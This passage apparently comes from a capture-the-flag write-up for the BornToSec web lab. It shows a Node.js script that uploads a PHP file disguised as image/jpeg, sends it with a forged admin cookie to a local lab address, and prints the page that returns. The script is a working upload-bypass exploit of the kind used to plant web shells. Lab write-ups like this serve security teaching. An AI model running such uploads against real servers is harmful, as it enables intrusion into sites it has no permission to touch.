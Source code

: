 
Either from the HTML form fields or from the request body, we can find the `form-data` entries:

- `uploaded` (contains the file)
- `MAX_FILE_SIZE` (the maximum size of the file; either not safe as can be changed)
- `Upload` (the value of the submit button)

The next step is to manually create the same `form-data` with a custom `content-type` equal to `image/jpeg` but in reality would contain an evil script.

### The whole script

```js
import FormData from 'form-data';

const form = new FormData();

form.append('uploaded', await fs.readFile('./script.php'), {
   contentType: 'image/jpeg',
   filename: "script.php"
});
form.append('MAX_FILE_SIZE', 10_000);
form.append('Upload', "Upload");

const response = await fetch("http://192.168.56.101/?page=upload", {
   "headers": {
      "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
      "accept-language": "en-US,en;q=0.9",
      "cache-control": "max-age=0",
      ...form.getHeaders(),
      "upgrade-insecure-requests": "1",
      "cookie": "I_am_admin=68934a3e9455fa72420237eb05902327",
      "Referer": "http://192.168.56.101/?page=upload",
      "Referrer-Policy": "strict-origin-when-cross-origin"
   },
   "body": form,
   "method": "POST"
});

console.log(await response.text());
```

Run the script using (do not forget to install dependencies before):
```bash
node script.js
```

After running this Node.js script we're able to retrieve the flag in the rendered page:

```html  
<!DOCTYPE HTML>
<html>
   <head>
      <title>BornToSec - Web Section</title>
      <meta http-equiv="content-type" content="text/html; charset=utf-8" />
      <meta name="description" content="" />
      <meta name="keywords" content="" />
      <!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
      <script src="js/jquery.min.js"></script>
      <script src="js/skel.min.js"></script>
      <script src="js/skel-layers.min.js"></script>
      <script src="js/init.js"></script>
      <noscript>
         <link rel="shortcut icon" type="image/x-icon" href="/favicon.ico" />
         <link rel="icon" type="image/x-icon" href="favicon.ico" />
         <link rel="stylesheet" href="css/skel.css" />
```